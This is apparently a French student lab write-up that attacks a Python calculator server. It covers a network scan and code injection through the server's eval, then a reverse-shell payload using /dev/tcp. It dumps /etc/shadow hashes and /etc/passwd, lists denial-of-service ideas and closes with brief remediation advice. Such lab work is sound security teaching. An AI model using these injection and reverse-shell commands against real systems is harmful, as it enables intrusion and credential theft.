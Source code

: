 # TP5 SECU : Exploit, pwn, fix
## 1. Reconnaissance
**🌞 Déterminer :**
IP : 10.1.1.2
Port : 13337
Wireshark ou un décompileur
**🌞 Scanner le réseau :**
```
nanouche@Ubuntu:~$ sudo nmap -p 13337 --scanflags SYN -sS 10.33.64.0/20 -oN scan
```
Résultat dans le dossier [scan](./scan)
[tp5_nmap.pcapng](./capture/tp5_nmap.pcapng)
**🌞 Connectez-vous au serveur :**
```
nanouche@Ubuntu:~$ sudo python3 client.py 
Veuillez saisir une opération arithmétique : 1+1
'2'
```
L'application est une calculatrice
## 2. Exploit
**🌞 Injecter du code serveur :**
```
nanouche@Ubuntu:~$ nc 10.33.72.148 13337
__import__('os').popen("ls").read()
afs
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
## 3. Reverse shell
**🌞 Obtenez un reverse shell sur le serveur :**
```
nanouche@Ubuntu:~$ nc 10.33.72.148 13337
__import__('os').popen("sh -i >& /dev/tcp/10.33.72.147/9999 0>&1").read()

nanouche@Ubuntu:~$ nc -lvp 9999
Listening on 0.0.0.0 9999
Connection received on 10.33.72.148 49297
sh: cannot set terminal process group (11456): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.1# 
```
**🌞 Pwn :**
```
sh-5.1# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:e4:0d:99 brd ff:ff:ff:ff:ff:ff
    inet 10.1.1.10/24 brd 10.1.1.255 scope global noprefixroute enp0s3
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fee4:d99/64 scope link 
       valid_lft forever preferred_lft forever
3: enp0s8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:a0:7b:1f brd ff:ff:ff:ff:ff:ff
    inet 10.0.3.15/24 brd 10.0.3.255 scope global dynamic noprefixroute enp0s8
       valid_lft 80092sec preferred_lft 80092sec
    inet6 fe80::a00:27ff:fea0:7b1f/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever

sh-5.1# cat etc/shadow
cat etc/shadow
root:$6$zEk1UBcRHlrijLhs$/1dzLO/IL.CSZuDFqhGsfwqMWLqcEqANgi/zoptiNyztK3PKX4uX.TBRaoaZ120sTVCT7awPUUF3s62Hs2yfN.::0:99999:7:::
bin:*:19469:0:99999:7:::
daemon:*:19469:0:99999:7:::
adm:*:19469:0:99999:7:::
lp:*:19469:0:99999:7:::
sync:*:19469:0:99999:7:::
shutdown:*:19469:0:99999:7:::
halt:*:19469:0:99999:7:::
mail:*:19469:0:99999:7:::
operator:*:19469:0:99999:7:::
games:*:19469:0:99999:7:::
ftp:*:19469:0:99999:7:::
nobody:*:19469:0:99999:7:::
systemd-coredump:!!:19653::::::
dbus:!!:19653::::::
tss:!!:19653::::::
sssd:!!:19653::::::
sshd:!!:19653::::::
chrony:!!:19653::::::
systemd-oom:!*:19653::::::
hugo:$6$Y5.0u9zww/X1I33x$PZxU8Ghsb7UOgEpRgjWERYj/Un58bEOig3MYF90y5fo9H.X5sZ6qluhSKqxekAPkwMU6sxw3fn.Z1TZ2bVrdF/::0:99999:7:::
tcpdump:!!:19653::::::
netdata:!!:20014::::::

sh-5.1# cat etc/passwd
cat etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
sssd:x:998:995:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
chrony:x:997:994:chrony system user:/var/lib/chrony:/sbin/nologin
systemd-oom:x:992:992:systemd Userspace OOM Killer:/:/usr/sbin/nologin
hugo:x:1000:1000:hugo:/home/hugo:/bin/bash
tcpdump:x:72:72::/:/sbin/nologin
netdata:x:991:991:NetData User:/var/log/netdata:/sbin/nologin

sh-5.1# sudo ss -tuln
sudo ss -tuln
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess
udp   UNCONN 0      0          127.0.0.1:8125       0.0.0.0:*          
udp   UNCONN 0      0          127.0.0.1:323        0.0.0.0:*          
udp   UNCONN 0      0              [::1]:8125          [::]:*          
udp   UNCONN 0      0              [::1]:323           [::]:*          
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*          
tcp   LISTEN 0      4096       127.0.0.1:8125       0.0.0.0:*          
tcp   LISTEN 0      4096         0.0.0.0:19999      0.0.0.0:*          
tcp   LISTEN 1      1          10.0.3.15:9999       0.0.0.0:*          
tcp   LISTEN 0      128             [::]:22            [::]:*          
tcp   LISTEN 0      4096            [::]:19999         [::]:*          
tcp   LISTEN 0      4096           [::1]:8125          [::]:* 

sh-5.1# cat home/hugo/client.py
cat home/hugo/client.py
#!/usr/bin/python3.9

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
s.send('Hello'.encode())

# On reçoit la string Hello
data = s.recv(1024)

# Récupération d'une string utilisateur
msg = input("Calcul à envoyer: ")

# On envoie
s.send(msg.encode())

# Réception et affichage du résultat
s_data = s.recv(1024)
print(s_data.decode())
s.close()

sh-5.1# cat home/hugo/portcheck.conf
cat home/hugo/portcheck.conf
jobs:
  - name: calculatrice
    host: 127.0.0.1
    ports:
      - 9999
```
## 4. Bonus : DOS
**⭐ BONUS : DOS l'application :**  
- Sur le firewall fermer le port 9999.
- Désinstaller Python de la machine.
- Supprimer le dossier home/hugo ou est stocké le .py et le .conf.
- time sleep la machine.
- Shutdown la machine.
# II. Remédiation
**🌞 Proposer une remédiation dév :**
- Valider et uniquement autoriser des entrées de int ou de +-*/.

**🌞 Proposer une remédiation système :**
- Limiter les permissions de l'application et définir un user avec les permissions les plus petites possibles pour juste faire sa tache et rien d'autre.
- Isoler l'application dans un conteneur Docker.